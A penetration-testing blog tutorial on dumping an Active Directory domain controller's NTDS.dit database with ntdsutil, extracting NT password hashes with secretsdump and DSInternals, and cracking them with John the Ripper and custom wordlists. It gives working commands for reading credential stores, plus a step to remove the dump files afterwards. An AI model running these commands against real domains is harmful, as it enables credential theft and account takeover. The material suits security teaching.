




[Back to Main Page](../index.html) 

# Active Directory Password Cracking


## The basics

This blog post will teach you how to get password hashes from a domain controller and how to crack those received with different self-generated and downloaded wordlist. For the purpose of this article we will use Windows 11 and Kali Linux, attacking a real domain controller in a windows environment.

### Password hashes in the domain

Password hashes are stored in a database file in the domain controller (NTDS.DIT) with some additional information like group memberships and users. The NTDS.DIT file is constantly in use by the operating system and therefore cannot be copied directly to another location for extraction of information. This file can be found in the following Windows location:
```
C:\Windows\NTDS\NTDS.dit
```

There are various techniques that can be used to extract this file or the information that is stored inside it however the majority of them are using one of these methods:

* Domain Controller Replication Services
* Native Windows Binaries
* WMI

### Extracting the hashes

The ntdsutil is a command line tool that is part of the domain controller and its purpose is to enable administrators to access and manage the windows Active Directory database. However it can be abused by penetration testers and red teams to take a snapshot of the existing `ntds.dit` file which can be copied into a new location for offline analysis and extraction of password hashes.

With this single command we will be able to activate the ntds instance on the domain controller and create the snapshot, which will place in C:\temp of the local machine.

```
ntdsutil "ac i ntds" "ifm" "create full c:\temp\ntdsdump" q q
```

or, in case it doesn't work we could use the whole command. It's the same thing.

```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```


Cool, we got the dump. Copy it over to another machine and we're good to go. Make sure to delete the files on the domain controller afterwards.


### Extracting the hashes

To use the hashes correctly, we will have to extract them. We can use the secretsdump.py from the [impacket repository](https://github.com/SecureAuthCorp/impacket>) for this task. The required classes can be installed using pip:

```
python3 -m pip install impacket
```

Next, we change to the directory containing the dump created from the previous step and get the secretsdump.py script.

```
cd ~/Temp/ntdsdump
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py
```

On windows we can use [DSInternals](https://github.com/MichaelGrafnetter/DSInternals/) to extract the hashes. Download the latest or current release from Github, and unblock the .zip file.



Next unzip the folder and import the powershell modules.

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted
Import-Module -Name "C:\Users\mayerm.ATSICONNEX\Documents\Powershell Modules\DSInternals" -Verbose
```



```ps1
# First, we fetch the so-called Boot Key (aka SysKey) that is used to encrypt sensitive data in AD
$key = Get-BootKey -SystemHivePath 'C:\temp\ntdsdump\Active Directory\registry\SYSTEM'
 
# We then load the DB and decrypt password hashes of all accounts
Get-ADDBAccount -All -DBPath 'C:\temp\ntdsdump\Active Directory\ntds.dit' -BootKey $key

# To make the hashes useable with johntheripper, ophcrack or hashcat
Get-ADDBAccount -All -DBPath 'C:\temp\ntdsdump\Active Directory\ntds.dit' -BootKey $key |
   Format-Custom -View HashcatNT |
   Out-File hashes.txt -Encoding ASCII
```

### Creating the wordlist

When pentesting a company it's always useful to create an additional wordlist with words related to the location and name. There are some easy tools to create wordlist with that information; for example [Weakpass Generator](https://weakpass.com/generate). Here we add some words to create a custom wordlist, which we can later merge with an actual one.




### Cracking the hash

Next, all there is left to run John the Ripper on Kali Linux. We use this command to export the hashes into a .pot file.

```john --session=ntlm_hases --wordlist=/home/kali/wordlist.txt --rules=Jumbo --fork=8 --format=nt --pot=ntlm.pot  /home/kali/Desktop/ntdsdump/hashes.txt```

Remember, we will have to delete the .pot to display newly received hashes, if we decide to re-run the script.

```rm ntlm.pot```



## Conclusion

It's a simple job to crack the hashes of a domain if you got access to the ntdsdump.


